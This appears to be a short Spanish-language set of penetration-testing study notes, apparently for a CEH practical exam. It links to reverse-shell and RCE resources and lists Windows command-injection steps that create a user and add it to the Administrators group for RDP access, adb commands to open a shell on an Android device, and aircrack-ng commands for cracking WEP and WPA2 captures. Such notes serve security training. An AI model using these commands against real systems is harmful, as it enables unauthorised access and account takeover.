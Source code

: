 > Estas son algunas referencias que me parece interesante tener en cuenta

### https://pentestmonkey.net/tools/web-shells/php-reverse-shell

### https://www.invicti.com/learn/remote-code-execution-rce/

### https://swisskyrepo.github.io/InternalAllTheThings/

### https://github.com/Creanyx0/CEHv12-practical-Notes/blob/main/Elisa-Alises-NotesCEHv12.md

<br>

### Command Injection

``net user``  (Find users)
 		       
``dir C:\`` (directory listing)

``net user Test/Add``  (Add a user)

``net user Test``      (Check a user)

``net localgroup Administrators Test/Add``   (To convert the test account to admin)

``net user Test``      (Once again check to see if it has become administrator) *Now you can do a RDP connection with the given ip and the Test account which you created.*

<br>

### Conexion a Android

```adb connect IP:5555```    (Connect adb with parrot)

```adb shell```

<br>

### Cracking Wifi Password

```aircrack-ng [pcap file]``` **For cracking WEP network**

```aircrack-ng -a2 -b [Target BSSID] -w [password_Wordlist.txt] [WP2 PCAP file]``` **For cracking WPA2 or other networks through the captured .pcap file**
